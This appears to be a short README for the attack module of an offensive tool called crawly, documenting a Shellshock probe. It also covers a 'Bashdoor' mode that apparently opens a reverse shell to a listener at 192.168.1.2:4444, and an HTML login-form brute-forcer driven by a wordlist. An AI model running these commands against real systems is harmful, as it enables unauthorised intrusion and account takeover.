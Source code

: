 # Attack

# File

- [x] attack.py

This file contains attacking classes of crawly. Each class instancied is auto runned with the gived paremeters.

# Shellshock / Bashdoor

```
# CLI command
crawly -A http://www.test.com/cgi-bin/vuln.cgi --shellshock
crawly -A http://www.test.com/cgi-bin/vuln.cgi --bashdoor --lhost 192.168.1.2 --lport 4444
```
```python
class Shellshock:
    def __init__(self, URL)

class Bashdoor:
    def __init__(self, RURL, LHOST, LPORT)
    
>>> import crawly
>>> URL = "http://www.test.com/cgi-bin/vuln.cgi"
>>> crawly.Shellshock(URL)
>>> crawly.Bashdoor(URL, "192.168.1.2", 4444)
```

# HTML form bruteforcer

Can break simple HTML forms.

```python
class HTMLBrute:
	def __init__(self, URL, USERFIELD="username", PASSFIELD="password", ERRORMSG="Error", 
		USER="admin", WORDLIST, THREADS)

>>> import crawly
>>> crawly.HTMLBrute("http://test.com/admin.php", ERRORMSG="Login Error", USER="webmaster", WORDLIST="pass_list.lst", THREADS=35)
```
